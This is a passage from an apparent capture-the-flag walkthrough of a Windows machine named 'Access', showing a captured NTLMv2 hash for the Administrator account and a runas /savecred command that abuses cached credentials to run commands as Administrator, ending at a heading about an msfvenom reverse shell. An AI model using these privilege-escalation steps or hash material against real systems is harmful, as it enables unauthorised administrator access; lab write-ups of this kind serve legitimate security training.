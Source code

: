 ```
[*] AUTHENTICATE_MESSAGE (ACCESS\Administrator,ACCESS)
[*] User ACCESS\Administrator authenticated successfully
[*] Administrator::ACCESS:aaaaaaaaaaaaaaaa:314372510a48afa054763b9fab243180:010100000000000000c50a05f117da0107a7a2915828e9be00000000010010005600780054006d004900630079006a00030010005600780054006d004900630079006a0002001000690055004900590074004d0058006d0004001000690055004900590074004d0058006d000700080000c50a05f117da0106000400020000000800300030000000000000000000000000300000c45662c81156ddad2d2c025027fef760c3ebcf4071017940cae8d043587e5dc90a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003900000000000000000000000000

```

- we can also test this by running the `whoami` command as administrator and then putting the output in a file, and we can see that it shows that we are administrator, because we ran the command as administrator

```shell
runas /env /noprofile /savecred /user:ACCESS\Administrator "cmd.exe /c whoami > whoami.txt"
```

![](assets/Access_assets/Pasted%20image%2020231115194037.png)

```ad-info
/env: it loads the current environmental variables
/noprofile: prevents the loading of the user's profile, which makes the execution of the program faster
/savecred: specify we are using saved credentials if the user's credentials are cached in the system or to save credentials
/user: specify the user
then the command we want to run
```

Windows Privilege Escalation with Runas: [https://juggernaut-sec.com/runas/](https://juggernaut-sec.com/runas/)
### Reverse shell with runas
- so we use msfvenom to generate a reverse shell payload for us, and then we will execute this payload as adminstrator
![](assets/Access_assets/Pasted%20image%2020231115195521.png)
